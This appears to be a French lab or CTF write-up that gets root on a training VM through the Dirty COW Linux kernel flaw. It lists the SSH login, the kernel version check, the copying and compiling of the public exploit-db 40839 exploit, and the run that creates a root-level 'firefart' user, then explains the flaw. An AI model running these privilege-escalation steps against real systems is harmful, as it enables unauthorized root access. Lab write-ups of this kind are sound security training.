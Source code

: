 # Dirty COW

On se connecte en ssh a la machine avec les credentials:
```
$ ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On verifie la version du Kernel
```
$ uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnerable a la faille Dirty COW.

Apres quelques recherches sur le net, on tombe sur ce site qui met a disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
$ scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
$ gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On execute
```
$ ./dirty <NEW-PASSWORD>
```

On execute ```su firefart``` avec le mot de passe choisi.

On verifie l'uid
```
$ id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on peut se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux a partir de la version 2.6.22 (Septembre 2007) jusqu'a la version 4.4.25 inclus. Elle a ete corrige depuis la version 4.4.26.
Elle exploite les fonctionnalites Copy-On-Write (COW) du noyau, d'ou son nom. C'est par ce biais que le pirate peut atteindre et ecrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une elevation de privileges et devenir root.

Dirty COW a ete decouverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE
```
